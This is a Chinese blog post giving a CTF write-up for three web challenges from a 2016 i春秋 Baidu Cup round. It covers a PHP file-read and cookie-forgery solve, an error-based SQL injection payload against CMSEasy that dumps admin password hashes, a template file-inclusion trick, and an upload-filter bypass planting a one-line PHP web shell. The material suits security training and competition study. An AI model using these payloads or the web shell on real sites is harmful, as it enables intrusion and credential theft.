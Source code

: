 ```yaml
---
layout: post
title: "CTF:I春秋百度杯9月第一周Write-up"
date:   2016-10-17
excerpt: "I春秋百度杯CTF9月份第一周Write-up"
tag:
- Web
- CTF
---
```

<h2 id="-write-up">第一周Write-up</h2>
<h3 id="code-">Code:</h3>
<p>　　提示：考脑洞题<br>　　打开题目后显示一张图片，在url中可以看到，/index.php?jpg=hei.jpg<br><img src="/images/postimage/2016-10-17-baiductf_901/1.png" alt=""><br>　　尝试访问/index.php?jpg=index.php<br>　　BINGO!<br>　　得到<br><img src="/images/postimage/2016-10-17-baiductf_901/2.png" alt=""><br>　　可以看到一串base64编码<br>　　通过base64解码，得到以下代码：</p>

<blockquote>
<p>&lt;?php<br>/**<br>* Created by PhpStorm.<br> * Date: 2015/11/16<br> * Time: 1:31<br> */<br>header(&#39;content-type:text/html;charset=utf-8&#39;);<br>if(! isset($<em>GET[&#39;jpg&#39;]))<br>　　header(&#39;Refresh:0;url=./index.php?jpg=hei.jpg&#39;);<br>$file = $_GET[&#39;jpg&#39;];<br>echo &#39;<title>file:&#39;.$file.&#39;</title>&#39;;<br>$file = preg_replace(&quot;/[^a-zA-Z0-9.]+/&quot;,&quot;&quot;, $file);<br>$file = str_replace(&quot;config&quot;,&quot;</em>&quot;, $file);<br>$txt = base64_encode(file_get_contents($file));</p>
<p>echo &quot;&lt;img src='data:image/gif;base64,".$txt."'>&lt;/img>&quot;;<br>/*<br> * Can you find the flag file?<br> *<br> */</p>
<p>?&gt;</p>
</blockquote>

<p>　　从代码中可以看到在url中将a-z,A-Z,0-9以及.以外的所以字符全部替换为&quot;&quot;<br>　　并且将config替换为<em><br>　　起初怀疑是绕过config.php，但发现config.php无法绕过<br>　　转而看到phpstorm，查看phpstorm生成的/.idea/workspace.xml文件<br><img src="/images/postimage/2016-10-17-baiductf_901/3.png" alt=""><br>　　可以看出，还有fl3g_ichuqiu.php，猜测flag在这个文件里<br>　　访问发现没有有价值的内容，由于在正则中将</em>过滤了<br>　　通过config和_之间的替换绕过该正则，访问/index.php?jpg=fl3gconfigichuqiu.php<br>　　得到<br><img src="/images/postimage/2016-10-17-baiductf_901/4.png" alt=""><br>　　再此解码得到：</p>
<blockquote>
<p>&lt;?php<br>/**<br> * Created by PhpStorm.<br> * Date: 2015/11/16<br> * Time: 1:31<br> */<br>error_reporting(E_ALL || ~E_NOTICE);<br>include(&#39;config.php&#39;);<br>function random($length, $chars = &#39;ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz&#39;) {<br>　　$hash = &#39;&#39;;<br>　　$max = strlen($chars) - 1;<br>　　for($i = 0; $i &lt; $length; $i++)    {<br>　　$hash .= $chars[mt_rand(0, $max)];<br>　　}<br>　　return $hash;<br>}</p>
<p>function encrypt($txt,$key){<br>　　for($i=0;$i&lt;strlen($txt);$i++){<br>　　　　$tmp .= chr(ord($txt[$i])+10);<br>　　}<br>　　$txt = $tmp;<br>　　$rnd=random(4);<br>　　$key=md5($rnd.$key);<br>　　$s=0;<br>　　for($i=0;$i&lt;strlen($txt);$i++){<br>　　　　if($s == 32) $s = 0;<br>　　}<br>　　return base64_encode($rnd.$ttmp);<br>}</p>
<p>function decrypt($txt,$key){<br>　　$txt=base64_decode($txt);<br>　　$rnd = substr($txt,0,4);<br>　　$txt = substr($txt,4);<br>　　$key=md5($rnd.$key);</p>
<p>　　$s=0;<br>　　for($i=0;$i&lt;strlen($txt);$i++){<br>　　　　if($s == 32) $s = 0;<br>　　　　$tmp .= $txt[$i]^$key[++$s];<br>　　}<br>　　　for($i=0;$i&lt;strlen($tmp);$i++){<br>　　　　$tmp1 .= chr(ord($tmp[$i])-10);<br>　　}<br>　　return $tmp1;<br>}</p>
<p>$username = decrypt($_COOKIE[&#39;user&#39;],$key);<br>if ($username == &#39;system&#39;){<br>　　echo $flag;<br>}else{<br>　　setcookie(&#39;user&#39;,encrypt(&#39;guest&#39;,$key));<br>　　echo &quot;╮(╯▽╰)╭&quot;;<br>}<br>?&gt;</p>
</blockquote>
<p>　　通过抓包发现在cookies中多出了user一项</p>
<p><img src="/images/postimage/2016-10-17-baiductf_901/5.png" alt=""><br>　　该user值为setcookie(&#39;user&#39;,encrypt(&#39;guest&#39;,$key));的值，通过该值和encrypt可以得到5位key值。<br>　　而已知key值为md5，在加密system时用到的key值中的前6位，故最后一位未知的有16种可能。<br>　　依照这个思路编写php代码如下：</p>
<blockquote>
<p>?&lt;?php<br>$txt=&quot;guest&quot;;<br>$ttmp=&quot;aU1aVxJMDElN&quot;;<br>$ttmp=base64_decode($ttmp);<br>$rnd=substr($ttmp,0,4);<br>$ttmp=substr($ttmp,4);<br>for($i=0;$i&lt;strlen($txt);$i++){<br>　　$tmp.=chr(ord($txt[$i])+10);<br>}<br>$txt=$tmp;<br>$tmp=&quot;&quot;;<br>for($i=0;$i&lt;strlen($ttmp);$i++){<br>　　$key .= $txt[$i] ^ $ttmp[$i];<br>}<br>$md5guess=&quot;0123456789abcdef&quot;;<br>$txt1=&quot;system&quot;;<br>for($i=0;$i&lt;strlen($txt1);$i++){<br>　　$tmp.=chr(ord($txt1[$i])+10);<br>}<br>$txt1=$tmp;</p>
<p>$tmp=&quot;&quot;;<br>for($i=0;$i&lt;16;$i++){<br>　　$tkey=$key.$md5guess[$i];<br>　　for($j=0;$j&lt; strlen($txt1);$j++){<br>　　$rresult .= $txt1[$j]^$tkey[$j];<br>}<br>$result=base64_encode($rnd.$rresult);<br>echo $result;<br>echo &#39;&lt;/br&gt;&#39;;<br>$rresult=&quot;&quot;;<br>}<br>?&gt;</p>
</blockquote>
<p>运行后得出以下结果：<br><img src="/images/postimage/2016-10-17-baiductf_901/6.png" alt=""><br>将其写入txt文档，并导入burp中跑。<br><img src="/images/postimage/2016-10-17-baiductf_901/7.png" alt=""></p>
<p><img src="/images/postimage/2016-10-17-baiductf_901/8.png" alt=""></p>
<p><img src="/images/postimage/2016-10-17-baiductf_901/9.png" alt=""><br>得到FLAG！</p>

<h3 id="yesercms-">YeserCMS:</h3>
<p><img src="/images/postimage/2016-10-17-baiductf_901/10.png" alt=""></p>
<p>　　通过浏览网页发现该网站使用的是CMSEASY，搜索该CMS漏洞。<br>　　使用缺陷编号： WooYun-2015-137013<br>　　漏洞标题： cmseasy 无限制报错注入（php函数的坑） </p>
<p>　　构造payload：<br>　　xajax=Postdata&amp;xajaxargs[0]=&lt;xjxquery&gt;&lt;q&gt;detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528password%2529%2529%2520from%2520yesercms_user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529--%2520&lt;/q&gt;&lt;/xjxquery&gt;<br>　　成功注入：<br><img src="/images/postimage/2016-10-17-baiductf_901/11.png" alt=""><br>　　密码MD5未显示全，通过调整mid函数的1,32参数，改为2，33查看最后一位MD5值。<br><img src="/images/postimage/2016-10-17-baiductf_901/12.png" alt=""><br>　　最终密码md5为：ff512d4240cbbdeafada404677ccbe61<br>　　解密为：Yeser231</p>
<p>　　进入后台，对源码进行代码审计，发现在模板编辑处的fetch操作存在注入。<br>　　post to /index.php?case=template&amp;act=fetch&amp;admin_dir=admin&amp;site=default<br>　　payload：&amp;id=#../../flag.php<br>　　通过文件包含拿到flag</p>

<h3 id="upload-">upload：</h3>
<p>　　尝试上传文件，发现服务器对上传文件类型和文本内容进行了过滤。<br>　　过滤了&lt;?和php，通过&lt;script language=&quot;phP&quot;&gt;绕过。<br>　　并且改变文件类型。<br>　　payload=&lt;script language=&quot;phP&quot;&gt;echo `$_REQUEST[v]`;&lt;/script&gt;</p>
<p><img src="img src="/images/postimage/2016-10-17-baiductf_901/13.png" alt=""><br>　　成功上传后，返回文件绝对路径/u/1.php<br>　　对1.php发包，构造v=pwd，获取路径。<br><img src="img src="/images/postimage/2016-10-17-baiductf_901/14.png" alt=""><br>　　通过cat 获取flag.php文件，payload=cat /var/www/html/flag.php<br><img src="img src="/images/postimage/2016-10-17-baiductf_901/15.png" alt=""><br>　　tip:第一个payload&lt;script language=&quot;phP&quot;&gt;echo `$_REQUEST[v]`;&lt;/script&gt;中，为`而不是&#39;。<br>　　反引号（``） 执行运算符（注意这不是单引号）</p>
<p>　　PHP 将尝试将反引号中的内容作为外壳命令来执行，并将其输出信息返回（例如，可以赋给一个变量而不是简单地丢弃到标准输出）。使用反引号运算符“`”的效果与函数 shell_exec() 相同。</p>
